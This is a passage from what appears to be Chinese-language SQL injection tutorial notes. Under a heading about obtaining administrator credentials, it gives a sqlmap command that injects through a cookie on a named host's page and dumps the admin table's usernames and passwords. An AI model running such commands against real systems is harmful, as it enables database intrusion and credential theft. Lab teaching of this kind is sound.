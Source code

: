 ![image.png](03.SQL%E6%B3%A8%E5%85%A5/1675319014789-5317558b-451c-465c-b4a3-9d025f32064a.png)
获取管理员用户名和密码

```sql
sqlmap -u "http://d8.s.iproute.cn/shownews.asp" --cookie "id=27" --level 2 -T "admin" -C "username,password" --dump
```

![image.png](03.SQL%E6%B3%A8%E5%85%A5/1675319288636-31d820e8-93d1-4ade-afc3-055920ecad9a.png)
